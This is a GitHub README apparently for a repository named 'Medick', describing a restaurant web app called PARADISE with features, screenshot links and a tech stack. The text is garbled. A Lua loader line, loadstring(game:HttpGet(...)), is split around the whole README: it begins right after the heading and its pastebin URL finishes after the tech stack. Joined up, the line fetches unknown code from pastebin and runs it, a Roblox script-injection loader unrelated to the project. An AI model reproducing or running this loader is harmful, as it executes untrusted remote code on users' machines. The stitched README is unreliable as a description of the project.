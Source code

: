 # Medick
loadstring(game:HttpGet(('htt# ✨ Title  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -


**Demo Video** -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page - 

![Screenshot (41)](https://github.com/muddurthi/Medick/assets/116054501/6641efcc-37ae-4420-9e6f-e9ad1d8d6bc0)
![Screenshot (42)](https://github.com/muddurthi/Medick/assets/116054501/882a5c31-35cf-4511-87dd-fd9a0f2e00c0)
![Screenshot (43)](https://github.com/muddurthi/Medick/assets/116054501/9c3f3a28-d1f4-482e-9664-567c8d9efef2)
![Screenshot (44)](https://github.com/muddurthi/Medick/assets/116054501/9c024eed-d748-49d4-8cb8-644aa1c6a731)
![Screenshot (45)](https://github.com/muddurthi/Medick/assets/116054501/3a8ac338-fe75-4364-aabe-a5684eae8cdb)
![Screenshot (46)](https://github.com/muddurthi/Medick/assets/116054501/741e63c1-81d2-4860-bb88-c84fbdf35c3f)
![Screenshot (47)](https://github.com/muddurthi/Medick/assets/116054501/c5d6a475-f255-4550-9cb6-40c67b0acb87)
![Screenshot (48)](https://github.com/muddurthi/Medick/assets/116054501/e8dbfc00-f26a-413e-8b37-264e6b4a9c4d)
![Screenshot (49)](https://github.com/muddurthi/Medick/assets/116054501/a811fbab-3b99-4cae-ba26-a07651b72aa6)
![Screenshot (50)](https://github.com/muddurthi/Medick/assets/116054501/1a30b885-034b-409c-9ae6-86b82582a7c1)
![Screenshot (51)](https://github.com/muddurthi/Medick/assets/116054501/207b2660-42e2-4946-bc24-65f1634ce4b3)

### Team page -
![Screenshot (52)](https://github.com/muddurthi/Medick/assets/116054501/580574f2-02ca-4508-ad3a-78f44f962438)
![Screenshot (53)](https://github.com/muddurthi/Medick/assets/116054501/0fe0e1ae-1cef-4820-b8a1-3e633a4879c6)
![Screenshot (54)](https://github.com/muddurthi/Medick/assets/116054501/bf7358a7-4b2d-4f6e-8e74-babbb6041200)

![Screenshot (55)](https://github.com/muddurthi/Medick/assets/116054501/18ac70dd-675c-4bb8-9937-e8f6fd030dab)
![Screenshot (56)](https://github.com/muddurthi/Medick/assets/116054501/655356a8-96e9-4b71-aa1b-e9fdc9a63e4e)
![Screenshot (57)](https://github.com/muddurthi/Medick/assets/116054501/152d8cbd-03c8-4595-ae1a-dcd2ae64499b)
![Screenshot (58)](https://github.com/muddurthi/Medick/assets/116054501/8c54bfd2-c948-498a-b5b2-ea76b1965e7c)
![Screenshot (59)](https://github.com/muddurthi/Medick/assets/116054501/14f79829-0d3b-4dfc-9c13-d145288cfd79)
![Screenshot (60)](https://github.com/muddurthi/Medick/assets/116054501/0b7c81d0-f668-4980-a626-68fcc9d32fde)
![Screenshot (61)](https://github.com/muddurthi/Medick/assets/116054501/46e8eac1-2df0-4eab-9f53-2fc5996d6e96)
![Screenshot (62)](https://github.com/muddurthi/Medick/assets/116054501/d19426f6-d772-438f-a6a5-97dc189c2181)

### Menu Page -

### About Us Page -


## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
